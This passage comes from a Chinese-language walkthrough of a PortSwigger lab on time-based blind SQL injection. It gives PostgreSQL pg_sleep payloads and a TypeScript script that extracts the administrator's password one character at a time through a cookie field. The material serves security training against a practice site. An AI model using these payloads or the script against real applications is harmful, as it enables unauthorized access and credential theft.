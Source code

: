 ```sql
SELECT * FROM tracking WHERE id = '' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--'
```

所以我們可以用 [String concatenation](https://portswigger.net/web-security/sql-injection/cheat-sheet#string-concatenation) 的方式

```sql
SELECT * FROM tracking WHERE id = '' || (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--'
```

或者讓 `OR` 的條件變成 Boolean

```sql
SELECT * FROM tracking WHERE id = '' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) IS NULL--'
```

老實說，在 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 幾乎是可以找到大部分題目的答案或 Hint 語法，我覺得最難的地方就是，要怎麼把這些看似正常的使用方法，用駭客的思維去組合測試

既然已經確定 [Conditional time delays](https://portswigger.net/web-security/sql-injection/cheat-sheet#conditional-time-delays) 可行，接下來就是把條件改成測試密碼的長度

```sql
SELECT * FROM tracking WHERE id = '' OR (SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username = 'administrator') = 20) THEN pg_sleep(5) ELSE pg_sleep(0) END) IS NULL--'
```

再來開始爆破密碼，構造以下 SQL

```sql
SELECT * FROM tracking WHERE id = '' OR (SELECT CASE WHEN SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm' THEN pg_sleep(5) ELSE pg_sleep(0) END) IS NULL--'
```

稍微修改 [Lab: Blind SQL injection with conditional errors](#lab-blind-sql-injection-with-conditional-errors) 的 NodeJS 程式碼

```ts
async function Blind_SQL_injection_with_time_delays_and_information_retrieval() {
  const config = {
    session: "o2anaO8pgQrKwriqAe5KQA1oXfkaAIol",
    url: "https://0acd00a6044b2fe980f6f325009d002b.web-security-academy.net/",
    passwordLength: 20,
    sleepSeconds: 5,
  };
  const password: string[] = [];
  for (let i = 0; i < config.passwordLength; i++) {
    for (const passwordChar of passwordChars) {
      console.log({ i, passwordChar });
      const timeStart = new Date().getTime();
      await fetch(config.url, {
        headers: {
          cookie: `session=${config.session}; TrackingId=' OR (SELECT CASE WHEN SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), ${i + 1}, 1) = '${passwordChar}' THEN pg_sleep(${config.sleepSeconds}) ELSE pg_sleep(0) END) IS NULL--`,
        },
      });
      const timeEnd = new Date().getTime();
      if (timeEnd - timeStart > config.sleepSeconds * 1000) {
        console.log(`find password position ${i + 1}: ${passwordChar}`);
        password[i] = passwordChar;
        break;
      }
    }
  }
  console.log("result");
  console.log(password.join(""));
```